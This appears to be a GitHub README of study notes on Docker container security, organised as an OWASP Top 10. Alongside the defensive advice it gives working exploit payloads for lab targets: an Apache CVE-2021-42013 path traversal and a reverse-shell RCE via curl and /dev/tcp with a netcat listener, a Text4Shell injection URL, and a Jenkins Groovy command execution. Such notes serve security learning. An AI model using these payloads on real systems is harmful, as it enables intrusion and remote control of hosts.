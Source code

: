 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
  
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
</details>

<details> 
<summary> 2: Insecure Container Images </summary>
  
- By compromising the insecure container images, attacker can gain access to applications. 
- Resolution: Implementation of Image Scannings (To identify vulnerabilities) and Signature Validations (to ensure Images are Trusted)
- Best practises: Use minimal base images that conbtain only necessary libraries

#### CVE-2022-42889 (Command Injection)
- The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.
- This issue affects Apache Commons Text versions 1.5 through 1.9.
- Cmd Injection URL Payload - ```https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch+%2Ttmp%2Fhelloworld%27%29%7d ```
- Actual payload after decode - ```https://your-target.com/exploit?search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch helloworld')} ```
- After successful execution a file helloworld will be created in app server.
- References: https://github.com/devenes/text4shell-cve-2022-42889
</details>

<details> 
<summary> 3: Insecure Container Configurations </summary>
  
- Misconfigurations may lead to disclose of sensitive date.
- Resolution: Implementation security measures like runtime security amd configuration management.
- Best practises: Implementation of Network segmentation, process isolation and orchestratrion (like kubernetes have default security measures)
- Best Practises: Add necessary access / remove unnecessary access like below examples:
drops capability to modify time -- ``` docker run --cap-drop=SYS_TIME -d my-image ```
Adds Network Bind Service -- ``` docker run --cap-add=NET_BIND_SERVICE -d my-image ```
- Conduct security assessments.
  
### Example: 
- We can set environment variables in Docker file. Setting credentails as Environment variables may disclose them.
</details>


<details> 
<summary> 4: Container Escape Vulnerabilities </summary>
  
- Breaking out from the container is known as "container escape". It allows an attacker to escape from a container to other container or underlying host and gain access to them.
- Option like --privileged may give access to all host systems. It is the same as executing a process with root privileges on the host machine.
``` docker run --privileged -it --name my-container my-image ```
- Resolution: Implementation security measures like runtime security and process isolation
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Best Practises: Keep containers updated.
- Conduct security assessments.

</details>

<details> 
<summary> 5: Inadequate Process Isolation </summary>
  
- Process running in different conmtainers may interact with each other. 
- This can lead to cross container compromise and data breaches.
- Resolution: Implementation process isolation through Namespace isolation (It Isolates Network, File system) and cgroups (Helps to limit resources that container can consume like CPU, memory, I/O)
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --pid when starting the container. Process runnin gunder the pid cannot access process on host system. 
``` docker run --pid=container -d my-image ```
- Limit CPU usage when starting container.
``` docker run --cpu-share=512 --memory=512m --memory-swap=1g -d my-image ```  

### Cross Container Compromise with SYS_PTRACE capability
- SYS_PTRACE is a linux kernal process / capability which traces and debugs other process. It can reads / modifies memory, registry and extract sensitive data.

</details>

<details>
<summary> 6: Inadequate Network Segmentation  </summary>
  
- Can lead to Data exfilteration and unauthorised access.
- Containers are their networks are not properly isolated from eachother.
- Resolution: Implementation of network segmentation will isolate containers from each other.
- Virtual networks will Isolates Network traffic, firewalls controls inbound and Outbound network traffic and security groups will limit network traffic.
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --network option ```docker run --network=my-network -d my-image```

</details>

<details>
<summary> 7: Inadequate Logging and Monitoring  </summary>
  
- Logging helps in detecting and resposding to attacks.
- All important events in containers need to be logged.
- Resolution: Collect logs from host system, Conatinerns and orchestration platform.
- Best practises: Use SIEM tools to detect and respond in real-time.
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)

</details>

<details>
<summary> 8: Insecure Data Storage in Containers  </summary>
  
- May lead to data breaches. Sensitive data maynot be properly secured.
- Resolution: Encrypt sensitive data, use secure storage options like NAS (Network attached Storage) or SAN (Styorage area networks)
- Best practises: Use access controls like RBAC (role-based access control).
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- use option -v , while starting a container, to mount a host directory as a data volume inside a container.
``` docker run -v /data:/data -d my-image ```
- Even after container is deleted, mounted data will be secured in host system.
- Use NAS / SAN as data volume using --mount option. This allows more flexibility to specify the type of mount (like bind, read-only, consistency). 
``` docker run --mount type=bind, source=/data, target=/data -d my-image ```

</details>

### Mounting a Docker Socket (docker.sock)
- Mounting Docker socket will make docker daemon hosts's unix socker available inside the container.
- It allows container to interact with docker host and access docker api to run / manage containers.
- This is a security risk, as container will have full access to docker host. So it need to be done with trusted containers.
- Can use option -v / --mount in docker run command and specify path of docker socket in host and target path inside the container.
- It can start / stop containers, mnodify images, accessing hor file systems.
- If Attacker gain access to this container, he can use mounted docker socket to control docker deamon and take over host system.
- Best practise: Use a seperate container to manage docker deamon.

``` docker run -d -p 8080:8080 --rm -v /var/run/docker.scok:/var/run/docker.sock --name jenkins -t vuln-jenkins:latest ```
</br>
 ![image](https://github.com/Vamckis/Container-Security/assets/71128825/03976075-072a-4902-a561-179c2d394388)
 - Creating ngnix container with --privileged option
``` curl -k -4 -X POST "http://localhjost:8080//descriptorByName/org.jenkins.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d 'value=class abcd{abcd(){"docker run -P --rm --privileged --name ngnix".execute()}}' ``` </br>
![image](https://github.com/Vamckis/Container-Security/assets/71128825/a0f2868f-62da-462b-905a-d2d953111f4c)


### References:
- https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities
- https://github.com/ec-council-learning/OWASP-Top-10-for-Docker-Containers-and-Kubernetes-Security
